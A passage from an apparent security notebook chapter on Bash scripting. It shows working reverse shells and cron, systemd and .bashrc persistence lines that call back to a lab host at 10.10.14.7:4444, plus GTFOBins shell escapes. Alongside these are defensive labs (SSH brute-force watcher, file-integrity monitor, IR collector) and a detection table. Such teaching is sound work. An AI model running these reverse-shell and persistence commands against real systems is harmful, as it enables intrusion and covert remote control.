- `0>&1` — redirect stdin from the same socket. Now the shell's input *and* output flow over the
  connection: a fully interactive shell in the attacker's `nc` window.

Other common variants you must be able to recognise (different tools, same idea):

```bash
# mkfifo + nc (when bash /dev/tcp is unavailable):
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.10.14.7 4444 > /tmp/f

# Upgrade a dumb shell to a full PTY (so Ctrl-C, tab-completion, vim work):
python3 -c 'import pty; pty.spawn("/bin/bash")'
# then: Ctrl-Z; stty raw -echo; fg; export TERM=xterm
```

### 8.2 Persistence via cron and systemd

Once in, attackers want to survive a reboot. Bash-based persistence usually means a **cron job**,
a **systemd timer**, or a **shell rc file**. Chapter 8 of the Linux notebook covered cron/systemd
mechanics; here is the offensive application (and every one of these leaves a detectable artefact).

```bash
# (a) Cron: call back every 10 minutes.
(crontab -l 2>/dev/null; echo "*/10 * * * * bash -i >& /dev/tcp/10.10.14.7/4444 0>&1") | crontab -

# (b) A rogue systemd service + timer:
cat >/etc/systemd/system/updater.service <<'EOF'
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1'
EOF
systemctl enable --now updater.service   # (renamed to look legitimate)

# (c) Shell rc backdoor — runs on every interactive login of that user:
echo 'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1 &' >> ~/.bashrc
```

- `(crontab -l; echo NEWLINE) | crontab -` is the safe append idiom — read the current crontab,
  add a line, reinstall. `2>/dev/null` swallows the "no crontab" error for a fresh user.
- The systemd example deliberately **names itself `updater`** to blend in — a real evasion tactic,
  and exactly why defenders diff `systemctl list-unit-files` against a known-good baseline.
- The `.bashrc` line runs on **every interactive login** — a favourite because it survives reboots
  and needs no root.

### 8.3 Living off the land

Skilled operators avoid dropping files at all. Bash built-ins (`/dev/tcp`, `printf`, `read`,
parameter expansion) let you scan, exfiltrate, and pivot without touching disk — defeating
antivirus that only scans files. **GTFOBins** (gtfobins.github.io) catalogues how ordinary
binaries (`find`, `tar`, `vim`, `awk`) can be abused for shells and privilege escalation:

```bash
# awk spawning a shell — useful when awk is SUID or allowed via sudo:
awk 'BEGIN {system("/bin/bash")}'
# find abused to run a command as whatever owns an allowed sudo rule:
sudo find . -exec /bin/bash \; -quit
```

Because these are legitimate binaries, file-based AV never flags them — which is precisely why
Part 10/11's behavioural detection (process lineage, `auditd` execve logs) matters more than
signatures for this class of attack.

## Part 9: Hands-On Labs

Two complete, reproducible labs. Run them against a VM you control (a local Metasploitable, a
DVWA container, or a TryHackMe box you have started). Sample output is shown so you know what
"working" looks like.

### 9.1 Lab A — a self-contained recon-and-report script

**Goal:** one script that scans a host, carves the results, and prints a report. We use the
pure-Bash scanner (no dependencies) so this runs anywhere.

```bash
#!/usr/bin/env bash
# scanreport.sh — pure-bash scan + report
set -uo pipefail
IFS=$'\n\t'

host="${1:?usage: scanreport.sh HOST}"
ports=(21 22 23 25 53 80 110 139 143 443 445 3306 3389 8080 8443)
open=()

log() { printf '[*] %s\n' "$*" >&2; }

log "scanning ${#ports[@]} common ports on $host"
for p in "${ports[@]}"; do
    if timeout 1 bash -c "exec 3<>/dev/tcp/$host/$p" 2>/dev/null; then
        open+=("$p")
        # try a quick banner grab on the open port
        banner=$( (exec 3<>/dev/tcp/$host/$p; printf '\r\n' >&3; timeout 1 head -c 60 <&3) \
                  2>/dev/null | tr -d '\0' | tr '\n' ' ')
        printf '%5d/tcp open   %s\n' "$p" "${banner:-<no banner>}"
    fi
done

echo
log "summary: ${#open[@]} open ports -> ${open[*]:-none}"
```

Run it and read real output:

```
$ ./scanreport.sh 10.10.10.3
[*] scanning 15 common ports on 10.10.10.3
   21/tcp open   220 ProFTPD 1.3.5 Server
   22/tcp open   SSH-2.0-OpenSSH_7.2p2 Ubuntu
   80/tcp open   HTTP/1.1 200 OK Server: Apache/2.4.18
  445/tcp open   <no banner>
 3306/tcp open   5.5.58-0ubuntu0.14.04.1

[*] summary: 5 open ports -> 21 22 80 445 3306
```

What each piece did: the C-style `for` loops the port array; `timeout 1 bash -c "exec 3<>..."` is
the connect test; the banner grab opens the socket, nudges it with a CRLF, and reads 60 bytes with
`head -c 60`, then `tr -d '\0'` strips NULs and `tr '\n' ' '` flattens newlines so the banner fits
one line. `${banner:-<no banner>}` supplies a placeholder when a service stays silent. **This
entire tool has zero external dependencies beyond coreutils** — it runs on a locked-down target.

### 9.2 Lab B — a defensive SSH brute-force watcher

**Goal:** tail the auth log, count failed SSH logins per source IP in real time, and alert when
one IP crosses a threshold — a miniature `fail2ban` you fully understand.

```bash
#!/usr/bin/env bash
# sshwatch.sh — alert on SSH brute force
set -uo pipefail

LOG="${1:-/var/log/auth.log}"     # Debian/Ubuntu; RHEL uses /var/log/secure
THRESHOLD="${2:-5}"
declare -A fails                  # associative array: ip -> count

alert() { printf '\e[31m[ALERT]\e[0m %s\n' "$*" >&2; }

printf '[*] watching %s (threshold %d fails/ip)\n' "$LOG" "$THRESHOLD" >&2
# tail -F follows the file across log rotation (-F = --follow=name --retry)
tail -Fn0 "$LOG" | while IFS= read -r line; do
    case "$line" in
        *"Failed password"*)
            # extract the source IP (field after "from")
            ip=$(grep -oE 'from ([0-9]{1,3}\.){3}[0-9]{1,3}' <<<"$line" | awk '{print $2}')
            [[ -z "$ip" ]] && continue
            fails[$ip]=$(( ${fails[$ip]:-0} + 1 ))
            if (( fails[$ip] >= THRESHOLD )); then
                alert "brute force from $ip (${fails[$ip]} failures)"
                # DEFENSIVE ACTION (lab only): drop the source with nftables/iptables
                # iptables -A INPUT -s "$ip" -j DROP
                fails[$ip]=0     # reset so we don't alert every subsequent line
            fi ;;
        *"Accepted password"*|*"Accepted publickey"*)
            ip=$(grep -oE 'from ([0-9]{1,3}\.){3}[0-9]{1,3}' <<<"$line" | awk '{print $2}')
            [[ -n "$ip" ]] && fails[$ip]=0 ;;   # successful login clears the counter
    esac
done
```

Simulate an attack from another shell (`for i in $(seq 6); do ssh baduser@localhost; done` with a
wrong password) and watch it fire:

```
$ sudo ./sshwatch.sh /var/log/auth.log 5
[*] watching /var/log/auth.log (threshold 5 fails/ip)
[ALERT] brute force from 203.0.113.77 (5 failures)
```

Key techniques: `declare -A fails` makes an **associative array** (a hash map) keyed by IP;
`${fails[$ip]:-0}` reads the current count with a default of 0; `tail -Fn0` follows the log from the
end (`-n0` = start at EOF) and survives rotation (`-F`); the `case` statement classifies each line;
a successful login **resets** the counter so a legitimate user after a few typos isn't blocked. The
commented `iptables` line is where you would auto-mitigate — left commented so the lab is safe.

This lab is the hinge of the chapter: it takes the exact same Bash you used offensively in Part 8
and turns it into detection. Every attacker technique has a log signature, and Bash is enough to
catch it.

## Part 10: Defensive Automation with Bash

Bash is a first-class blue-team language: file-integrity monitoring, log triage, quick IR
collection, and scheduled health checks all fit in a few dozen lines that run anywhere with no
agent to install.

### 10.1 A file-integrity monitor (host-based tripwire)

Attackers modify files — `/etc/passwd`, SSH `authorized_keys`, web roots, cron dirs. A baseline of
hashes plus a periodic re-check catches tampering:

```bash
#!/usr/bin/env bash
set -euo pipefail
WATCH=(/etc/passwd /etc/shadow /etc/crontab /etc/ssh/sshd_config /var/www/html)
BASELINE="/var/lib/fim/baseline.sha256"

case "${1:-check}" in
    init)
        mkdir -p "$(dirname "$BASELINE")"
        find "${WATCH[@]}" -type f -print0 | xargs -0 sha256sum > "$BASELINE"
        echo "[*] baseline written: $(wc -l < "$BASELINE") files" ;;
    check)
        # -c reads the baseline and reports OK / FAILED per file
        if ! sha256sum -c "$BASELINE" --quiet 2>/tmp/fim.err; then
            echo "[ALERT] integrity change detected:" >&2
            cat /tmp/fim.err >&2         # lists the changed files
        fi ;;
esac
```

- `find ... -print0 | xargs -0` uses **NUL-delimited** filenames so paths with spaces or newlines
  can't break the pipeline — the safe way to move file lists between commands.
- `sha256sum -c --quiet` verifies against the baseline and prints only failures. Schedule
  `fim.sh check` via cron every few minutes and pipe alerts to a webhook.

### 10.2 An IR triage collector

When a host is suspected compromised, a single script snapshots volatile state before it changes:

```bash
#!/usr/bin/env bash
set -uo pipefail
OUT="ir-$(hostname)-$(date +%s)"; mkdir -p "$OUT"

ps auxww                       > "$OUT/processes.txt"
ss -tulpan004                  > "$OUT/listening.txt"    # open sockets + owning PIDs
last -aiF                      > "$OUT/logins.txt"
crontab -l 2>/dev/null         > "$OUT/user-crontab.txt"
cp -a /etc/cron* "$OUT/" 2>/dev/null || true
for u in $(cut -d: -f1 /etc/passwd); do
    crontab -l -u "$u" 2>/dev/null && echo "== $u ==";
done                           > "$OUT/all-crontabs.txt"
find / -newermt '-24 hours' -type f 2>/dev/null | head -500 > "$OUT/recent-files.txt"
tar czf "$OUT.tar.gz" "$OUT" && echo "[*] collected -> $OUT.tar.gz"
```

- `ss -tulpan` lists TCP/UDP listening sockets with owning process — the fastest way to spot a
  reverse-shell listener or C2 beacon. `find / -newermt '-24 hours'` surfaces recently modified
  files (dropped payloads). This is the Bash version of what enterprise EDR does; understanding it
  by hand makes you far better at reading EDR output.

### 10.3 `shellcheck` — lint your scripts before they bite

**What it is (from scratch):** `shellcheck` is a static analyser for shell scripts that flags
quoting bugs, unsafe expansions, and portability problems. Install: `sudo apt install shellcheck`.
Run: `shellcheck recon.sh`. It is the single highest-value tool for writing correct Bash.

```
$ shellcheck backup.sh
In backup.sh line 4:
rm -rf $TMPDIR/*
       ^-- SC2086: Double quote to prevent globbing and word splitting.
```

That `SC2086` warning is the exact bug that turns into `rm -rf /` when `$TMPDIR` is empty. Treat
shellcheck as a required gate — pipe it into CI, and never commit a script with unresolved
warnings. **Blue team usage:** running shellcheck across a fleet's `/etc/cron.d` and deploy scripts
routinely uncovers latent quoting bugs that are both reliability and security risks.

## Part 11: Detection & Defense Angle

Pulling every offensive technique from this chapter together, here is how each is detected. This is
the consolidated defense section the reference chapters use — one place that maps attacker Bash to
defender signal.

| Attacker technique (Part 8)        | Artifact / signal                              | Detection method                                            |
|------------------------------------|------------------------------------------------|-------------------------------------------------------------|
| `bash -i >& /dev/tcp/...`          | Bash with a socket as stdin/stdout             | `auditd` execve of `bash -i`; process with a TCP fd; EDR    |
| `/dev/tcp` port scan               | Many short-lived outbound SYNs from one PID    | Netflow / connection-rate anomaly; `ss` snapshots           |
| `nc -e` / `mkfifo` shell           | `nc`, `mkfifo` in process tree                 | Command-line logging (`auditd`, Sysmon-for-Linux)           |
| Cron persistence                   | New line in a crontab / `/etc/cron.*`          | FIM on cron dirs (Part 10.1); `auditd` watch on crontab     |
| systemd persistence                | New/modified `.service` unit                   | `systemctl list-unit-files` baseline diff; FIM on units     |
| `.bashrc` backdoor                 | Appended payload in a dotfile                  | FIM on home dotfiles; login-triggered outbound connection   |
| GTFOBins (awk/find shell)          | Legit binary spawning `/bin/bash`              | Process-lineage rules (parent `find`, child `bash`)         |

The through-line: **file-based signatures miss most of this; behaviour catches it.** Concretely,
deploy these:

- **`auditd`** — the Linux kernel audit daemon. A rule like
  `auditctl -a always,exit -F arch=b64 -S execve -k exec` logs every program execution with its full
  command line, so a `bash -i` reverse shell or a GTFOBins `awk 'BEGIN{system(...)}'` is recorded
  verbatim. Watch sensitive files with `auditctl -w /etc/crontab -p wa -k cron_tamper`.
- **Command-line + process-lineage logging** (Sysmon-for-Linux, EDR, or `auditd`) — alert when a
  network daemon (`nginx`, `sshd`) or an office/interpreter process spawns `bash`/`sh`, the classic
  RCE-to-shell pattern.
- **Egress filtering** — reverse shells need to phone home. Default-deny outbound plus DNS/HTTP
  proxying breaks most callbacks and generates the alert when something tries.
- **FIM + unit/cron baselining** — from Part 10, catches every persistence mechanism above.
- **Bash history + `PROMPT_COMMAND` shipping** — forwarding shell history to a central log (with
  timestamps via `HISTTIMEFORMAT`) preserves attacker commands even if they later `rm` the history.

## Part 12: Common Pitfalls and Gotchas

Bash's flexibility is also its foot-gun collection. These are the mistakes that bite security
scripts specifically — every one has caused a real incident or a broken engagement.

- **Unquoted variables (`SC2086`).** `rm -rf $dir` with an empty or space-containing `$dir` is
  catastrophic. Quote everything: `rm -rf "$dir"`. This is the number-one Bash bug, full stop.
- **Parsing `ls` output.** `for f in $(ls)` breaks on spaces and newlines in filenames. Use globs
  (`for f in *`) or `find -print0 | xargs -0`.
- **`set -e` doesn't catch everything.** It's disabled inside `if`/`&&`/`||` conditions and in
  command substitutions in older Bash. Don't treat it as a safety net for *logic* errors — only for
  unexpected command failures. Validate inputs explicitly.
- **`grep`/`diff` exit codes under `set -e`.** `grep` returns 1 on no-match, which aborts a strict
  script. Guard with `|| true` when a non-match is a valid outcome.
- **Word splitting on command substitution.** `files=$(find . -name '*.log')` then `for f in $files`
  splits on whitespace. Use a `while read` loop or a `mapfile -t files < <(find ...)` into an array.
- **The useless-use-of-`cat` / subshell trap.** `cat f | while read x; do total=$((total+1)); done`
  runs the loop in a subshell, so `total` is lost afterward. Redirect instead: `while read x; do ...
  done < f`.
- **Trusting `$PATH` in privileged scripts.** A root cron job that calls `tar` (not `/bin/tar`) can
  be hijacked if an attacker controls an earlier `$PATH` entry. Use absolute paths or set `PATH`
  explicitly at the top of privileged scripts.
- **Secrets on the command line.** `curl -H "Authorization: Bearer $TOKEN"` exposes `$TOKEN` in `ps`
  to every user. Prefer `curl --config <(printf 'header="Authorization: Bearer %s"' "$TOKEN")` or an
  env var read by the tool, and never `echo` secrets into logs.
- **`eval` and unsanitised input.** `eval "$user_input"` is direct command injection. Avoid `eval`
  almost always; when you must template a command, build it as an **array**, not a string.

## Final Revision / Summary

- **Strict mode is non-negotiable:** `set -euo pipefail` + `IFS=$'\n\t'` + a `trap ... EXIT` for
  cleanup. Fail loud, clean up, never `rm -rf` an empty variable.
- **Make scripts real tools:** `getopts` for flags, a `usage()` heredoc, and *validate every input*
  before it reaches a command. Unvalidated args are self-inflicted injection bugs.
- **Quote everything.** `"$var"`, `"${arr[@]}"`, `"$(cmd)"`. `"${arr[@]}"` = one word per element;
  `"${arr[*]}"` = joined string. Unquoted expansion is the root of most Bash bugs and vulns.
- **Parallelise deliberately:** `xargs -P`, `& + wait` gating, or GNU `parallel`, always with a
  per-job `timeout` and a sane concurrency cap — for the target's sake and for stealth.
- **Text pipelines are recon:** `sort | uniq -c | sort -rn` to rank, `comm -13` to diff for change
  monitoring, `awk -F.` to carve hosts. `jq -r` for every JSON API.
- **Bash speaks the network:** `/dev/tcp/host/port` gives you a scanner and an HTTP client with zero
  dependencies — invaluable on a stripped target. `nc -lvnp` is your catcher.
- **Every offensive one-liner has a defensive twin:** reverse shells, cron/systemd/`.bashrc`
  persistence, and GTFOBins all leave artefacts. FIM, `auditd` execve logging, process-lineage
  rules, and egress filtering catch them. `shellcheck` catches *your* bugs before they ship.

## Cheat Sheet / Quick Reference

```bash
# --- Skeleton ---
#!/usr/bin/env bash
set -euo pipefail; IFS=$'\n\t'
trap 'rm -rf -- "$WORKDIR"' EXIT
WORKDIR=$(mktemp -d)

# --- Args ---
while getopts ":d:o:vh" o; do case "$o" in
  d) DOMAIN=$OPTARG;; o) OUT=$OPTARG;; v) V=1;; h) usage; exit 0;;
  :) die "-$OPTARG needs arg";; \?) die "bad flag";; esac; done
shift $((OPTIND-1))

# --- Safe patterns ---
"${arr[@]}"                       # each element one word
${var:?msg}  ${var:-default}      # required / default
[[ "$x" =~ ^[0-9]+$ ]]            # validate integer
while IFS= read -r line; do :; done < file
mapfile -t arr < <(cmd)           # command output -> array

# --- Parallel ---
xargs -P 40 -I{} sh -c 'cmd {}' < list
cmd & (( ++n % 40 == 0 )) && wait ; wait
parallel -j 40 --timeout 8 'cmd {}' :::: list

# --- Text / JSON ---
sort | uniq -c | sort -rn | head          # rank by frequency
comm -13 old new                          # lines new to 'new' (both sorted)
awk -F. '{print $(NF-1)"."$NF}'           # apex domain
jq -r '.[].name_value' ; jq -r '[.a,.b]|@tsv'

# --- Network (no deps) ---
timeout 1 bash -c "exec 3<>/dev/tcp/$h/$p" && echo open
nc -lvnp 4444                             # catcher
bash -i >& /dev/tcp/10.10.14.7/4444 0>&1  # reverse shell (LAB ONLY)

# --- Defense ---
find "${W[@]}" -type f -print0 | xargs -0 sha256sum > base   # FIM baseline
sha256sum -c base --quiet                                    # FIM check
auditctl -a always,exit -F arch=b64 -S execve -k exec        # log all execs
auditctl -w /etc/crontab -p wa -k cron_tamper                # watch crontab
shellcheck script.sh                                         # lint
```

## Practice Labs & Resources

Train these exact skills — argument-parsing, pipelines, `/dev/tcp`, reverse shells, and detection:

- **OverTheWire — Bandit** (overthewire.org/wargames/bandit): the definitive Bash/shell wargame;
  levels 0–34 drill `grep`/`sort`/`nc`/`/dev/tcp`, file carving, and job control hands-on.
- **TryHackMe — "Linux Shells"**, **"Bash Scripting"**, and **"Intro to Log Analysis"** rooms:
  scripting fundamentals plus the defensive `sort|uniq -c` log-triage patterns from Part 4/9.
- **TryHackMe — "Reverse Shells" / "What the Shell?"**: build and catch every reverse-shell variant
  from Part 8 against a live target, then upgrade to a PTY.
- **HackTheBox — starting-point and easy Linux boxes** (e.g. *Lame*, *Shocker*, *Bashed*): practise
  the pure-Bash scanner, GTFOBins privesc, and cron persistence on real machines you're allowed to.
- **GTFOBins** (gtfobins.github.io): reference for living-off-the-land binaries — read it as both
  attacker and defender; build a detection rule for three entries.
- **ShellCheck** (shellcheck.net / `apt install shellcheck`): paste your recon and defensive scripts
  in; fix every `SC` warning. Make it a habit before every commit.
- **explainshell.com**: paste any one-liner from this chapter to see each flag explained inline —
  ideal for dissecting the reverse-shell redirections in Part 8.
- **Build it yourself:** extend Lab A's scanner with `& + wait` concurrency, then extend Lab B's
  `sshwatch.sh` to ship alerts to a Discord webhook and auto-`iptables`-drop offenders — you'll have
  a genuinely useful mini-`fail2ban` you fully understand.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/programming-for-security/04-bash-scripting-for-offensive-and-defensive-automation), with comments and the latest edits.*
